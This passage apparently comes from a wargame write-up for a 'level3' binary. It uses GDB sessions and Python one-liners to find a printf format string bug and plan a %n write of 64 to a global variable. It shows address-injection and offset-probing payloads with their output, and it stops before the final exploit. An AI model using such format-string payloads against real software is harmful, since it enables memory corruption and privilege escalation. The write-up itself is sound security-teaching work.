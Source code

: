     > (gdb) r
    Starting program: /home/user/level3/level3
    qweqwe

    Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6

    > (gdb) step
    Single stepping until exit from function printf, which has no line number information.
    qweqwe
    0x080484da in v ()

    > (gdb) ni
    0x080484df in v ()

    > (gdb) set $eax=64

    > (gdb) step
    Single stepping until exit from function v,
    which has no line number information.
    Wait what?!
    $ whoami
    level3
    ```

8.  Oh crap… Doesn’t work, we still `level3`... Well, our last potential target is the `printf`, but how a function which role is to print stuff could be exploited? The first unusual thing to notice, is that the function takes the `buffer` as only argument, instead of `format string` followed by values… While reading the documentation, we noticed something:

    > Code such as `printf(foo);` often indicates a bug, since `foo` may contain a % character.  If `foo` comes from untrusted user input, it may contain `%n`, causing the `printf()` call to write to memory and creating a security hole.
    >

    > %n  -  The number of characters written so far is stored into the integer pointed to by the corresponding argument.
    >
9. That’s it! 100% we have exploit that. To recap, we have to store `64` into `m` (which is a global variable, as seen in step 4, therefore, stored in the `stack` @ `0x0804988c`). To do so, we certainly have to use `%n` from  `printf` which stores the number of characters written. So far, so good, first thing to do is to store our `m` address into our `buffer` to provide it to `%n`.

    ```bash
    > (python -c "print '\x8c\x98\x04\x08'") | ./level3
    ```

10. Good, we are going somewhere. Now, we need to find the offset of our `buffer` from the top of the `stack`, so we know how many `dword` we need to skip (aka. number of `%x`) for our `%n` match our provided address.

    ```bash
    > python -c "print 'AAAA '+'%x '*8" | ./level3
    AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520

    # Using GDB
    > (gdb) b printf
    Breakpoint 1 at 0x8048390
